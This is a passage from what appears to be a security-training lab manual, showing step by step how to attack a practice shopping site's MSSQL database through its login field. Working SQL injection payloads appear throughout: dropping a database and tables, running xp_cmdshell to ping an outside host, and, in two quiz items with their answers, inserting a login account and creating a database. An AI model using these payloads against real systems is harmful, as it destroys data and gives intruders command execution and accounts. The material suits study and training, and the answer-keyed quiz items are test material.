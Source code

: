 	) and then click Connect Object Explorer icon ( 
	
	) to connect to the database. In the Connect to Server pop-up, leave the default settings as they are and click the Connect button.
	30. Expand the Databases node. A new database has been created with the name mydatabase, as shown in the screenshot.
	
	31. Click Windows 11 to switch back to the Windows 11 machine and the browser where the GoodShopping website is open.
	32. Click LOGIN on the menu bar and type the query blah'; DROP DATABASE mydatabase; -- in the Username field; leave the Password field empty and click Log in.
In the above query, you are deleting the database that you created in Step 25 (mydatabase). In the same way, you could also delete a table from the victim website database by typing blah'; DROP TABLE table_name; -- in the Username field.
	
	33. To see whether the query has successfully executed, Click Windows Server 2019 to switch back to the victim machine (Windows Server 2019); and in the Microsoft SQL Server Management Studio window, click the Refresh icon.
	34. Expand Databases node in the left pane; you will observe that the database called mydatabase has been deleted from the list of available databases, as shown in the screenshot.
	
	In this case, we are deleting the same database that we created previously. However, in real-life attacks, if an attacker can determine the available database name and tables in the victim website, they can delete the database or tables by executing SQL injection queries.
	35. Close the Microsoft SQL Server Management Studio window.
	36. Click Windows 11 to switch back to the Windows 11 machine and the browser where the GoodShopping website is open.
	37. Click LOGIN on the menu bar and type the query blah';exec master..xp_cmdshell 'ping www.certifiedhacker.com -l 65000 -t'; -- in the Username field; leave the Password field empty and click Log in.
In the above query, you are pinging the www.certifiedhacker.com website using an SQL injection query. -l is the sent buffer size and -t refers to pinging the specific host.
	
	38. The SQL injection query starts pinging the host, and the login page shows a Waiting for www.goodshopping.com… message at the bottom of the window.
	39. To see whether the query has successfully executed, click Windows Server 2019 to switch back to the victim machine (Windows Server 2019).
	40. Right-click the Start icon in the bottom-left corner of Desktop and from the options, click Task Manager. Click More details in the lower section of the Task Manager window.
	41. Navigate to the Details tab and type p. You can observe a process called PING.EXE running in the background.
	42. This process is the result of the SQL injection query that you entered in the login field of the target website.
	
	43. To manually kill this process, click PING.EXE, and click the End task button in the bottom right of the window.
	44. If a Task Manager pop-up appears, click End process. This stops or prevents the website from pinging the host.
	45. This concludes the demonstration of how to perform SQL injection attacks on an MSSQL database.
	46. Close all open windows and document all the acquired information.
Question 15.1.1.1
Use an SQL injection query to perform SQL injection attacks on the website www.goodshopping.com. Create a new user in the database with the credentials Martin/qwerty123. Enter the SQL injection query to create the above user in the MSSQL database. (Note: After clicking on the submit button, reload the page and open the same session to check if the answer is correct or not.)
blah';insert into login values ('Martin','qwerty123'); --
Question 15.1.1.2
Create a new database in the MSSQL database with the name MySQLDatabase by using an SQL injection query. Enter the SQL injection query to create the above database. (Note: After clicking on the submit button, reload the page and open the same session to check if the answer is correct or not.)
blah';create database MySQLDatabase; --
Task 2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap